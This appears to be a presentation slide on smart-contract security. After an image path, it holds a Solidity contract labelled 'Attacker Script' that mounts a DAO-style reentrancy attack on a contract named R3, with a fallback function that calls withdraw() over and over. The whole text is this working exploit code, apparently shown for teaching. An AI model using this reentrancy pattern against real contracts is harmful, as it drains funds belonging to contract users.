

//Attacker Script
contract R3A{
R3 public r3;
constructor(address payable _contractAddress) public payable{
	r3 = R3(_contractAddress);
}
function sendEthToDAO() public {
	address(r3).call.value(address(this).balance)("");
}
function hackDAO() public{
	r3.withdraw();
}
function() external payable{
if(address(r3).balance >= 0){
	r3.withdraw();
}
}
}